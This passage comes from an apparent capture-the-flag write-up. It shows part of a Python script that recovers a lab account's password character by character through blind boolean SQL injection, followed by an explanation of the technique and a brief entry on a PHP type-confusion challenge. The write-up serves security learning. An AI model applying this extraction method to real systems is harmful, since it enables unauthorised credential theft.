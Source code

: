 ```python
		if (threshold == 0):
			# response length will increase with payload length. remove the payload length from the response length to negate this
			#100 + 50
			#100 - 50 = 50
			#101 + 51
			#101 - 51 = 50
			threshold = len(r2.text) - len(payload)
		
		# a true response will return at least one more byte than a false response. break and continue to the next character if we get a hit. 
		if ((len(r2.text) - len(payload)) > threshold):
			out += c
			print out
			found = 1
			break
			
		# TODO: edge case where first letter in alphabet returns true response. This was done manually for finding 'admin' table

	if (found):
		pos += 1
		continue
	else:
		print out
		break
```

This script will select one letter at a time from the password for the username `admin` and perform a a boolean brute force check on each letter. The first character of the password isn't 'a' so the script continues until it gets to 'S'. The response is 1 byte larger meaning our SQL statement was true and the first character of the password is 'S'. That process is repeated until all characters are identified.  

{F1133308}

The final username / password combo was `admin` / `S3creT_p4ssw0rd-$` which gave access to the flag:

{F1133082}

I reran this script and it took almost an hour to complete! It took the better half of a day to finally bruteforce the password the first time around. 

##Flag #10 - Signup Manager
> The zip of source code was easy to see
> but not the PHP trick that lie underneath.
> Surely there has to be some kind of quirk.
> Numeric type confusion just might work!

The flag was a cut and dry case of RTFM. By carefully reading the provided code and the PHP docs, the flag is easy to spot. Regardless, this was one of my favorite challenges because I learned soemthing new about PHP! Thanks..... *grinch*. hmph. 
